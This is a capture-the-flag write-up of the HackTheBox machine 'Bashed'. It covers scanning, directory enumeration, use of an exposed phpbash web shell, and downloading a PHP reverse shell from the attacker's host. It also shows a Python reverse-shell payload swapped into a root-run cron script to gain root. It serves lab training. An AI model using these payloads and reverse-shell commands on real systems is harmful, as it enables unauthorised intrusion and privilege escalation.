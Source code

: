 # Rust scan

```bash
ghost@localhost [19:47:00] [~/Documents/tj-null-boxes/bashed] [master]
-> % rustscan -a 10.10.10.68 --ulimit 5000 -- -sC -sV
[~] The config file is expected to be at "/home/ghost/.rustscan.toml"
[~] Automatically increasing ulimit value to 5000.
Open 10.10.10.68:80

PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-favicon: Unknown favicon MD5: 6AA5034A553DFA77C3B2C7B4C26CF870
| http-methods:
|_  Supported Methods: OPTIONS GET HEAD POST
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

<br/>

# Gobuster

```bash
ghost@localhost [19:48:34] [~/Documents/tj-null-boxes/bashed] [master]
-> % gobuster dir -u http://10.10.10.68 -k -w /usr/share/dirb/wordlists/common.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.68
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirb/wordlists/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/08/21 19:48:55 Starting gobuster in directory enumeration mode
===============================================================
/.htaccess            (Status: 403) [Size: 295]
/.hta                 (Status: 403) [Size: 290]
/.htpasswd            (Status: 403) [Size: 295]
/css                  (Status: 301) [Size: 308] [--> http://10.10.10.68/css/]
/dev                  (Status: 301) [Size: 308] [--> http://10.10.10.68/dev/]
/fonts                (Status: 301) [Size: 310] [--> http://10.10.10.68/fonts/]
/images               (Status: 301) [Size: 311] [--> http://10.10.10.68/images/]
/index.html           (Status: 200) [Size: 7743]
/js                   (Status: 301) [Size: 307] [--> http://10.10.10.68/js/]
...
```

<br/>

# PHP Bash

http://10.10.10.68/dev/phpbash.php

PHP bash exists on server. Netcat is also on the server.

```bash
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php  
phpbash.php  

www-data@bashed:/var/www/html/dev# nc
This is nc from the netcat-openbsd package. An alternative nc is available  
in the netcat-traditional package.  
usage: nc [-46bCDdhjklnrStUuvZz] [-I length] [-i interval] [-O length]  
[-P proxy_username] [-p source_port] [-q seconds] [-s source]  
[-T toskeyword] [-V rtable] [-w timeout] [-X proxy_protocol]  
[-x proxy_address[:port]] [destination] [port]****
```

However, we cannot establish a reverse shell with netcat from PHP bash. Therefore, I host [php-reverse-shell.php](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and download it to the server. Later, directly accessing the file to execute reverse connection.

```bash
www-data@bashed:/var/www/html/dev# wget http://10.10.14.7:8000/php-reverse-shell.php -O ../uploads/reverse.php
--2022-08-21 04:59:39-- http://10.10.14.7:8000/php-reverse-shell.php  
Connecting to 10.10.14.7:8000... connected.  
HTTP request sent, awaiting response... 200 OK  
Length: 5491 (5.4K) [application/octet-stream]  
Saving to: '../uploads/reverse.php'  
  
0K ..... 100% 22.7M=0s  
  
2022-08-21 04:59:40 (22.7 MB/s) - '../uploads/reverse.php' saved [5491/5491]
```

Then you can get reverse shell by accessing http://10.10.10.68/uploads/reverse.php.

```bash
ghost@localhost [20:00:02] [~/Documents/tj-null-boxes/bashed] [master *]
-> % nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 42124
Linux bashed 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:00:27 up 13 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

<br/>

# Privilege Escalation

It seems `www-data` can execute files as `scriptmanager`. Using this, I can change the user and re-run linpeas.

```bash
...
╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
...
```

I login to script manager, and run linpeas again.

```bash
www-data@bashed:/tmp$ sudo -i -u scriptmanager
scriptmanager@bashed:~$
```

This time found a folder `script` owned by `scriptmanager`.

```bash
╔══════════╣ Searching folders owned by me containing others files on it (limit 100)
/scripts

╔══════════╣ Readable files belonging to root and readable by me but not world readable

╔══════════╣ Modified interesting files in the last 5mins (limit 100)
/scripts/test.txt
/home/scriptmanager/.gnupg/trustdb.gpg
/home/scriptmanager/.gnupg/pubring.gpg
/home/scriptmanager/.gnupg/gpg.conf
/var/log/auth.log
/var/log/syslog
```

Inside `script` folder got 2 files,  `test.py` and `test.txt`. The content of `test.py` looks like below.

```python
f = open("test.txt", "w")
f.write("testing 123!")
f.close
```

Which open `test.txt` and write the text inside. When we see the permission of `test.txt` it is owned by root.

```bash
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4  2017 test.py
-rw-r--r-- 1 root          root          12 Aug 21 05:24 test.txt
```

That means, root user is running the  `test.py` (file owned by `scriptmanager`) periodically.

So, we moved the original file to `.bk` and replaced with python script that actually connects back to another reverse shell running at port `4444`.

The file looks like below.

```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.7",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

```bash
scriptmanager@bashed:/scripts$ wget 10.10.14.7:8000/pe.py
--2022-08-21 06:17:38--  http://10.10.14.7:8000/pe.py
Connecting to 10.10.14.7:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 214 [text/x-python]
Saving to: 'pe.py'

pe.py               100%[===================>]     214  --.-KB/s    in 0s

2022-08-21 06:17:39 (21.7 MB/s) - 'pe.py' saved [214/214]

scriptmanager@bashed:/scripts$ mv pe.py test.py
```

```bash
ghost@localhost [21:17:44] [~/Documents/tj-null-boxes/bashed] [master *]
-> % nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.7] from (UNKNOWN) [10.10.10.68] 50854
bash: cannot set terminal process group (48956): Inappropriate ioctl for device
bash: no job control in this shell
root@bashed:/scripts# id
uid=0(root) gid=0(root) groups=0(root)
```

<br/>

# Flags

```bash
$ cat user.txt
4188****
```

```bash
root@bashed:/scripts# cat /root/root.txt
4b44****
```
